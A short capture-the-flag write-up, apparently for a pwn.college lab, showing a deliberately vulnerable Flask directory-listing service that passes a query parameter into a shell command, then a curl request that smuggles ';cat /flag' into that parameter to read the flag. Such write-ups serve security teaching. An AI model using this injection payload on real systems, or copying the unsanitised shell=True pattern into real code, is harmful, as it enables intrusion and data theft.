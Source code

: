 This requires us to inject a command to read the flag into the server. The server uses Linux to run some command and get a list of files from the requested directory.

```python
#!/opt/pwn.college/python

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/", methods=["GET"])
def challenge():
    directory = flask.request.args.get("directory", "/challenge")
    command = f"ls -l {directory}"
    print(f"DEBUG: {command=}")

    listing = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form><input type=text name=directory><input type=submit value=Submit></form>
        <hr>
        <b>Output of: ls -l {directory}</b><br>
        <pre>{listing}</pre>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

So we can take advantage of this, by following the requested directory with a `;`, we can execute our own command:

```bash
curl -v "http://challenge.localhost:80/?directory=/%3Bcat%20/flag"
```
